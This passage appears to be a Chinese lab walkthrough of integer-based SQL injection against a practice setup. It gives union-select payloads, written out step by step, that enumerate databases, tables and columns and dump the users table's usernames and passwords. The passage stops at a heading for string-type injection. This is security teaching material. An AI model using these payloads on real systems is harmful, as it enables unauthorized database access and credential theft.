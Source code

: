 确定存在有整数注入。

2、使用`order by`来确定字段数，到`1 order by 4`时返回错误，可知字段数为3：

![image-20210720172256959](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720172257.png)

3、枚举当前数据库，构造语句为：

```mysql
-1 union select 1, 2, database()
```

![image-20210720174709025](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720174709.png)

可知当前数据库名为`security`。当然此处也可以通过构建语句如下：

```mysql
-1 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

即在information_schema表中查看数据库中的库名，如下图：

![image-20210720175446894](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720175447.png)

若库多的话就会不了解当前数据库对应库名，此处除了数据库默认的相关库之外，只有额外的3个库，`dvwa`、`challenges`、`security`，简单排除测试以了解其当前数据库即可。

4、枚举`security`下的表名，使用的语句如下：

```mysql
-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'
```

成功得到表名:

![image-20210720180035937](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720180036.png)

5、枚举字段名，使用的语句如下：

```mysql
-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
```

成功拿到相关字段名：

![image-20210720180352999](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720180353.png)

6、枚举字段的数据项，使用的语句如下：

```mysql
-1 union select 1,group_concat(username),group_concat(password) from users
```

成功拿到用户名与密码：

![image-20210720180903711](https://{{site.PicturesLinks_Domain}}/images/2021/07/20/20210720180903.png)

## SQL 字符型注入
